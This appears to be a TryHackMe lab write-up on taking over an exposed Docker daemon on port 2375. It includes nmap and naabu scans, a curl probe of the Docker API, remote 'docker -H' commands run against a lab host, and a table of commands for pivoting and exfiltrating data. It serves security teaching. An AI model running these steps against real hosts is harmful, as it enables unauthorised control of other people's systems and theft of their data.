 ```yaml
---
title: "Remote Code Execution via Exposed Docker Daemon"
date: 2024-09-01 07:09:22
categories: [Docker]
tags: [Docker, THM]
---
```


## The Docker Engine TCP Sockets Edition

Recall how Docker uses sockets to communicate between the host operating system and containers in the previous task. Docker can also use TCP sockets to achieve this.

Docker can be remotely administrated. For example, using management tools such as [Portainer](https://www.portainer.io/) or [Jenkins](https://www.jenkins.io/) to deploy containers to test their code (yay, automation!).

## The Vulnerability

The Docker Engine will listen on a port when configured to be run remotely. The Docker Engine is easy to make remotely accessible but difficult to do securely. The vulnerability here is Docker is remotely accessible and allows anyone to execute commands. First, we will need to enumerate.

Enumerating: Finding Out if a Device Has Docker Remotely Accessible

By default, the engine will run on **port 2375.** We can confirm this by performing an Nmap scan against your target (10.10.62.80) from your AttackBox.

```
[iamroot@parrot]$ nmap -sV -p 2375 10.10.62.80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 21:37 IST
Nmap scan report for 10.10.62.80
Host is up (0.48s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20 (API 1.41)
Service Info: OS: linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds

```



```
[iamroot@parrot]$ naabu -p - 10.10.62.80

                  __
  ___  ___  ___ _/ /  __ __
 / _ \/ _ \/ _ \/ _ \/ // /
/_//_/\_,_/\_,_/_.__/\_,_/ v2.0.5

		projectdiscovery.io

Use with caution. You are responsible for your actions
Developers assume no liability and are not responsible for any misuse or damage.
[INF] Running CONNECT scan with non root privileges
[INF] Found 3 ports on host 10.10.62.80 (10.10.62.80)
10.10.62.80:2222
10.10.62.80:22
10.10.62.80:2375

```

Looks like it's open; we're going to use the `curl` command to start interacting with the exposed Docker daemon. Confirming that we can access the Docker daemon: `curl http://10.10.62.80:2375/version`


```
[iamroot@parrot]$ curl http://10.10.62.80:2375/version

{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"20.10.20","Details":{"ApiVersion":"1.41","Arch":"amd64","BuildTime":"2022-10-18T18:18:12.000000000+00:00","Experimental":"false","GitCommit":"03df974","GoVersion":"go1.18.7","KernelVersion":"5.15.0-1022-aws","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.6.8","Details":{"GitCommit":"9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6"}},{"Name":"runc","Version":"1.1.4","Details":{"GitCommit":"v1.1.4-0-g5fd4c4d"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"20.10.20","ApiVersion":"1.41","MinAPIVersion":"1.12","GitCommit":"03df974","GoVersion":"go1.18.7","Os":"linux","Arch":"amd64","KernelVersion":"5.15.0-1022-aws","BuildTime":"2022-10-18T18:18:12.000000000+00:00"}

```

## Executing Docker Commands on Our Target

For this, we'll need to tell our version of Docker to send the command to our target (not our own machine). We can add the "-H" switch to our target. To test if we can run commands, we'll list the containers on the target: `docker -H tcp://10.10.62.80:2`

```
[iamroot@parrot]$ docker -H tcp://10.10.62.80:2375 ps

CONTAINER ID   IMAGE        COMMAND               CREATED        STATUS             PORTS                               NAMES
7b7461f9882e   dockertest   "/usr/sbin/sshd -D"   4 months ago   Up About an hour   0.0.0.0:22->22/tcp, :::22->22/tcp   beautiful_pasteur


```

## What Now

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further. It is worth recalling the commands covered in [Intro to Docker](https://tryhackme.com/room/introtodockerk8pdqk). However, I've included some commands that you may wish to explore:


| **Command  <br>** | **Description  <br>**                                                                                                                         |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------- |
| network ls        | Used to list the networks of containers, we could use this <br>to discover other applications running and pivot to them <br>from our machine! |
| images            | List images used by containers; data can also be exfiltrated <br>by reverse-engineering the image.                                            |
| exec              | Execute a command on a container.                                                                                                             |
| run               | Run a container.                                                                                                                              |
